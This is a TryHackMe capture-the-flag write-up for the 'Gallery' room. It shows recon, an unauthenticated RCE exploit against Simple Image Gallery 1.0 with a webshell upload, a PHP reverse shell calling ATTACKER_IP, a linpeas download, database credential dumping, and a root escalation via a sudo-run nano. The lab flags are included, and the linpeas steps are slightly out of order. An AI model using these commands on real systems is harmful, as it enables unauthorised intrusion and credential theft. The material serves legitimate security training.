







# 🖼️ Gallery – TryHackMe Writeup

## 📌 Room Overview

**Room Name:** Gallery  
**Difficulty:** Easy
**Objective:** Exploit a vulnerable image gallery web application to gain root access.
**Room** : https://tryhackme.com/room/gallery666

---

# 🔎 1. Reconnaissance

## 🔹 Nmap Scan

```bash
nmap -sV -vv Machine_IP -oN nmap_scan
```
### Scan Results:

|Port|Service|Version|
|---|---|---|
|22|SSH|OpenSSH 8.2p1|
|80|HTTP|Apache 2.4.41|
|8080|HTTP|Apache 2.4.41|

---

# 🌐 2. Web Enumeration

## 🔹 Gobuster (Port 80)
```bash
gobuster dir -u http://Machine_IP \
-w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Found:

```
/gallery
```

Accessing:

```
http://Machine_IP/gallery/login.php
```

---

## 🔹 Gobuster (Port 8080)

The server returned 200 for non-existing pages, so we excluded response length:

```bash
gobuster dir \
-u http://Machine_IP:8080 \
-w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt \
--exclude-length 15916
```

### Interesting Findings:

```
/config
/database
/uploads
/classes
/create_account
/report
```

---

# 💥 3. Exploitation – RCE

Searchsploit revealed:
```
Simple Image Gallery 1.0 - RCE (Unauthenticated)
```

Exploit:
```bash
searchsploit simple image gallery
```

Found:
```
50214.py
```

## 🔹 Running Exploit
```bash
python3 50214.py
```

✔ Login bypass  
✔ Shell upload successful

Shell URL:
```
http://Machine_IP/gallery/uploads/<shell>.php?cmd=whoami
```

---

# 🐚 4. Reverse Shell

Generated reverse shell:`url encode`
```bash
php -r '$sock=fsockopen("ATTACKER_IP",9001);exec("/bin/bash <&3 >&3 2>&3");'
```
- convert :`url encode`
Listener:
```bash
nc -lvnp 9001
```

Upgraded shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

We now have:
```
www-data
```

---

# 🗄️ 5. Database Enumeration

Found credentials in:
```bash
cat initialize.php
```

```php
DB_USERNAME = gallery_user
DB_PASSWORD = passw0rd321
DB_NAME     = gallery_db
```

## 🔹 Login to MySQL
```bash
mysql -u gallery_user -p gallery_db
```

Password:
```
passw0rd321
```

### Show tables:
```sql
SHOW TABLES;
```

```
album_list
images
system_info
users
```

### Dump users:
```sql
SELECT * FROM users;
```

Found hash:

```
a228b12a08b6527e7978cbe5d914531c
```


---

# 🔓 6. Finding Credentials
```
mktemp -d
/tmp/tmp.SVoKBPBOaR
cd /tmp/tmp.SVoKBPBOaR
wget http://<YourIP>:8000/linpeas.sh
linpeas.sh
chmod +x linpeas.sh
./linpeas
```


```
.bash_history
```


```
sudo -lb3stpassw0rdbr0xx
```

Likely password:

```
b3stpassw0rdbr0xx
```

---

# 👤 7. Lateral Movement – Mike User

Switched to:
```bash
su mike
```

Accessed:

```bash
cat /home/mike/user.txt
```

```user.txt
THM{af05cd30bfed67849befd546ef}
```

---

# 🧠 8. Privilege Escalation

## 🔹 Check Sudo Permissions
```bash
sudo -l
```

Output:
```
(root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

---

## 🔎 Analyze Script

```bash
cat /opt/rootkit.sh
```

Interesting part:
```bash
read)
    /bin/nano /root/report.txt;;
```

Nano runs as **root**.

---
# 💣 9. Nano Privilege Escalation

Run:
```bash
sudo /bin/bash /opt/rootkit.sh
```

When prompted:

```
read
```

Nano opens `/root/report.txt`.

Inside nano:

Press:

```
CTRL + R
CTRL + X
```

Then execute:
```
reset; sh 1>&0 2>&0
```


---

## 🎯 Root Shell Achieved

```
# whoami
root
# cd /root
# ls
report.txt  root.txt
# cat root.txt
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```

```Root.txt
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```

---

# 🏁 Final Flags

|Flag|Value|
|---|---|
|User|THM{af05cd30bfed67849befd546ef}|
|Root|THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}|

---
## 🧑‍💻 Author

Ghost- Cybersecurity Learner & CTF Player